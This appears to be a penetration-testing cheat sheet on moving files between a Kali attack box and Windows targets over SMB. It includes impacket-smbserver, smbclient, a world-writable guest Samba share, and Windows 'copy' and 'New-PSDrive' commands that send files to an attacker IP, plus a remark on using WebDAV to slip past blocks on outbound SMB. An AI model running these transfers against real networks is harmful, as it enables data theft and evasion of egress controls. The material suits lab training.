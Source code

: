 ```bash
kali_op1> impacket-smbserver -smb2support kali `pwd` # Share current directory
kali_op2> smbserver.py -smb2support name /path/folder # Share a folder
sudo impacket-smbserver share -smb2support /tmp/smbshare # share spesifice folder

#For new Win10 versions
impacket-smbserver -smb2support -user test -password test test `pwd` 
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test # spesifice folder + with creds

# or 
python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support tmp . 


#copy of a file from the shared folder 
smbclient //HOST/tmp -U guest -c 'get file.txt' # download file
smbclient //HOST/tmp -U guest -c 'put file.txt' # upload file

python /usr/share/doc/python3-impacket/examples/smbclient.py ''@10.10.17.181
use tmp
get <file>
put <file>


sudo mount -t cifs //HOST/tmp /mnt -o user=guest
  cp /path/to/file /mnt/
```

Or create a smb share **using samba**:

```bash
apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb
#Add to the end of /etc/samba/smb.conf this:
[public]
    comment = Samba on Ubuntu
    path = /tmp/smb
    read only = no
    browsable = yes
    guest ok = Yes
#Start samba
service smbd restart
```

Windows

```bash
1) # assume you have the necessary permissions to access the shared folder.
CMD-Wind> net use Z: \\<ServerName>\<SharedFolder>
CMD-Wind> net use Z: \\<ServerName>\<SharedFolder> /user:<username> <password> # For SMB using credentials
2) #copy using  windwos 
net use \\<IP>\tmp /user:test test #  Map the SMB Share with Credentials
copy \\<ServerName>\<SharedFolder>\<FileName> <DestinationPath>
copy C:\path\to\file.txt \\<Linux_IP>\shared\file.txt # from windows to linux


WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:
```
Commonly enterprises don't allow the SMB protocol (TCP/445) out of their internal network because this can open them up to potential attacks.An alternative is to run SMB over HTTP with `WebDav`, The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.
```bash
# open pwnbox , setup upload server
```